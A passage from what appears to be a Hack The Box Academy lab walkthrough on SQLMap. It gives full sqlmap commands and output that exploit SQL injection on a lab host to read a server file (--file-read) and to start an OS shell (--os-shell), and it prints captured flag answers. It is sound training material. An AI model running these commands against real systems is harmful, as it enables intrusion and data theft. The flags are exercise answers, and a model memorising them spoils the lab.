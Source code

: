 ```javascript
--batch --file-read '/var/www/html/flag.txt'
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.59.168:58202/?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.59.168:58202/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --file-read '/var/www/html/flag.txt'

[SNIP]

[06:50:31] [INFO] fetching file: '/var/www/html/flag.txt'

[SNIP]

[06:50:31] [INFO] the local file '/home/htb-ac-1461567/.local/share/sqlmap/output/94.237.59.168/files/_var_www_html_flag.txt' and the remote file '/var/www/html/flag.txt' have the same size (31 B)
files saved to [1]:
[*] /home/htb-ac-1461567/.local/share/sqlmap/output/94.237.59.168/files/_var_www_html_flag.txt (same file)

[SNIP]

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ cat '/home/htb-ac-1461567/.local/share/sqlmap/output/94.237.59.168/files/_var_www_html_flag.txt'

HTB{5up3r_u53r5_4r3_p0w3rful!}
```

**Answer**

```
HTB{5up3r_u53r5_4r3_p0w3rful!}
```

#### Question #15

**Question**

Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.

```javascript
--batch --os-shell
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.59.168:58202/?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.59.168:58202/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --os-shell

[SNIP]

[06:54:12] [INFO] fingerprinting the back-end DBMS operating system
[06:54:12] [INFO] the back-end DBMS operating system is Linux
[06:54:12] [INFO] testing if current user is DBA
[06:54:12] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
```